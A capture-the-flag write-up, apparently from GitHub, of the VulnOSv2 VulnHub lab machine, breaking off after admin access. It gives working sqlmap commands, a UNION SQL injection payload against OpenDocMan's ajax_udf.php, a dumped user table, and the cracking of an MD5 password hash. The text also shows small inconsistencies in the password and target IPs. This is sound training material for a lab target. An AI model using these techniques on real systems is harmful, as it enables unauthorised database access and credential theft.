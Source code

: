 ###### Description: Writeup of VulnOSv2 VM in Vulnhub by the author c4b3rw0lf

Let's begin by scanning the host: 

```
# nmap -A -T4 -sV -PN -p- 192.168.0.15

Nmap scan report for 192.168.0.15
Host is up (0.00022s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     (protocol 2.0)
| ssh-hostkey: 1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA)
| 2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA)
|_256 ae:d7:6f:cc:ed:4a:82:8b:e8:66:a5:11:7a:11:5f:86 (ECDSA)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: VulnOSv2
6667/tcp open  irc     ngircd
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at http://www.insecure.org/cgi-bin/servicefp-submit.cgi :
SF-Port22-TCP:V=6.40%I=7%D=5/20%Time=573F2008%P=x86_64-pc-linux-gnu%r(NULL
SF:,2B,"SSH-2\.0-OpenSSH_6\.6\.1p1\x20Ubuntu-2ubuntu2\.6\r\n");
MAC Address: 08:00:27:57:4F:AA (Cadmus Computer Systems)
No exact OS matches for host (If you know what OS is running on it, see http://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=6.40%E=4%D=5/20%OT=22%CT=1%CU=39556%PV=Y%DS=1%DC=D%G=Y%M=080027%T
OS:M=573F2056%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=I%TS=8
OS:)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)OPS(O1=M5B4ST11NW7%O2=M5B4
OS:ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1
OS:=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O
OS:=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N
OS:)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=
OS:S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF
OS:=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=
OS:G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: Host: irc.example.net

TRACEROUTE
HOP RTT     ADDRESS
1   0.22 ms 192.168.0.15

OS and Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1041.99 seconds
```

So we discovered it has the following services running:
- SSH (22/TCP)
- HTTP (80/TCP)
- IRCd (6667/TCP)

Firing up the browser we encounter a black screen pointing us to http://192.168.0.15/jabc/. 

Following this link we reach another page called "JBC Just Another Bioware Company". Not many interesting stuff here so I decided to have a look at the website source code. 

Poking around some pages I've found /jabc/modules/system/ with apache index enabled, with many many files:

```
Index of /jabc/modules/system
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[ ]	html.tpl.php	2016-04-16 15:17 	2.7K	 
[ ]	image.gd.inc	2016-04-16 15:17 	12K	 
[ ]	language.api.php	2016-04-16 15:17 	6.4K	 
[ ]	maintenance-page.tpl.php	2016-04-16 15:17 	2.9K	 
[ ]	page.tpl.php	2016-04-16 15:17 	6.8K	 
[ ]	region.tpl.php	2016-04-16 15:17 	1.3K	 
[TXT]	system.admin-rtl.css	2016-04-16 15:17 	1.4K	 
[TXT]	system.admin.css	2016-04-16 15:17 	5.0K	 
[ ]	system.admin.inc	2016-04-16 15:17 	113K	 
[ ]	system.api.php	2016-04-16 15:17 	193K	 
[ ]	system.archiver.inc	2016-04-16 15:17 	3.0K	 
[TXT]	system.base-rtl.css	2016-04-16 15:17 	869 	 
[TXT]	system.base.css	2016-04-16 15:17 	5.2K	 
[ ]	system.cron.js	2016-04-16 15:17 	489 	 
[ ]	system.info	2016-04-16 15:17 	462 	 
[ ]	system.install	2016-04-16 15:17 	112K	 
[ ]	system.js	2016-04-16 15:17 	4.6K	 
[ ]	system.mail.inc	2016-04-16 15:17 	4.5K	 
[TXT]	system.maintenance.css	2016-04-16 15:17 	811 	 
[TXT]	system.menus-rtl.css	2016-04-16 15:17 	551 	 
[TXT]	system.menus.css	2016-04-16 15:17 	2.0K	 
[TXT]	system.messages-rtl.css	2016-04-16 15:17 	176 	 
[TXT]	system.messages.css	2016-04-16 15:17 	961 	 
[ ]	system.module	2016-04-16 15:17 	137K	 
[ ]	system.queue.inc	2016-04-16 15:17 	12K	 
[ ]	system.tar.inc	2016-04-16 15:17 	62K	 
[ ]	system.test	2016-04-16 15:17 	108K	 
[TXT]	system.theme-rtl.css	2016-04-16 15:17 	811 	 
[TXT]	system.theme.css	2016-04-16 15:17 	3.6K	 
[ ]	system.tokens.inc	2016-04-16 15:17 	7.9K	 
[ ]	system.updater.inc	2016-04-16 15:17 	4.6K	 
[ ]	theme.api.php	2016-04-16 15:17 	8.8K

```
All TXT files are basically CSS files, not too important information there, so I continued browsing through JABS products and found the page: /jabc/?q=node/7.

Inspecting the source I found the following lines: 
```
<p><span style="color:#000000">For security reasons, this section is hidden.</span></p>
<p><span style="color:#000000">For a detailed view and documentation of our products, please visit our documentation platform at /jabcd0cs/ on the server. Just login with guest/guest</span></p>
<p><span style="color:#000000">Thank you.</span></p>
```

Now we've got a new link called /jbacd0cs/ and also some guest/guest credentials. Accessing the URL in question it gets us to a page called "opendocman".

Using the guest/guest credentials it was possible to log into the application.

We are presented with something like a database administration but with guest privileges.

First I've tried to upload a simple test.php file with a print inside, but I've got the error message: 

```
MIMETYPE: text/x-php Failed
```

So we can assume that the system is blocking PHP files. So I started looking for exploits for "OpenDocMan v1.2.7" version in use. I've found in www.exploit-db.com the following exploit: 

https://www.exploit-db.com/exploits/32075/

Analyzing the exploit we can see that it is an SQL Injection and is related to a insufficient validation of "add_value" HTTP GET parameter in "/ajax_udf.php" script. A remote unauthenticated attacker can execute arbitrary SQL commands in application's database.
 
Let's fire up sqlmap using the value in question and see what databases we can find:

```
# sqlmap -u 'http://192.168.0.100/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user' --dbs

... snip ...

[22:56:29] [INFO] resuming back-end DBMS 'mysql' 
[22:56:29] [INFO] testing connection to the target URL
[22:56:29] [INFO] heuristics detected web page charset 'ISO-8859-2'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: add_value (GET)
    Type: UNION query
    Title: MySQL UNION query (86) - 9 columns
    Payload: q=1&add_value=odm_user UNION ALL SELECT 86,CONCAT(0x71716a6a71,0x6677646748424473794d5952474d4977574c6a4447526b65667267776852736c6f556f7967795a52,0x71706b7171),86,86,86,86,86,86,86#
---
[22:56:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL 5
[22:56:29] [INFO] fetching database names
[22:56:29] [INFO] heuristics detected web page charset 'windows-1252'
[22:56:29] [WARNING] reflective value(s) found and filtering out
available databases [6]:
[*] drupal7
[*] information_schema
[*] jabcd0cs
[*] mysql
[*] performance_schema
[*] phpmyadmin

```

After some sqlmap we can see that we are fetching information from a MySQL Database server, and we've found interesting tables here, including phpmyadmin, which may be used to administer the database. 

Let's try to see the tables for the "jabcd0cs" database first:

```
# sqlmap -u 'http://192.168.0.100/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user' --dbs --tables
```
The output is huge so I won't be posting here, BUT, analyzing all the databases we've got, I found one called "odm_user" which appears to be the table responsible for the user's credentials.

Let's try to dump the contents (rows) of this table: 

```
./sqlmap.py -u 'http://192.168.0.15/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user' --dbs -T odm_user --dump

... snip

Database: jabcd0cs
Table: odm_user
[2 entries]
+----+-------------+--------------------+----------+------------------------------------------+-----------+------------+------------+---------------+
| id | phone       | Email              | username | password                                 | last_name | first_name | department | pw_reset_code |
+----+-------------+--------------------+----------+------------------------------------------+-----------+------------+------------+---------------+
| 1  | 5555551212  | webmin@example.com | webmin   | b78aae356709f8c31118ea613980954b         | min       | web        | 2          | <blank>       |
| 2  | 555 5555555 | guest@example.com  | guest    | 084e0343a0486ff05530df6c705c8bb4 (guest) | guest     | guest      | 2          | NULL          |
+----+-------------+--------------------+----------+------------------------------------------+-----------+------------+------------+---------------+

...snip
```

Notice that one of the users is "webmin". Once we have the hash we can try to discover what kind of hash it is, by using hash-identifier: 

```
# hash-identifier

... snip ...

 HASH: b78aae356709f8c31118ea613980954b

Possible Hashs:
[+]  MD5
[+]  Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

So let's do the cracking in an easy way, throwing the hash into google. It was very easy to retrieve the password for this hash, which is "webmin1980".

Let's try to log in the same application again with the credentials webmin/webmin1908. DONE !!! Worked like a charm !!

Now i've noticed that we have a new menu option called "Admin". Cool !!
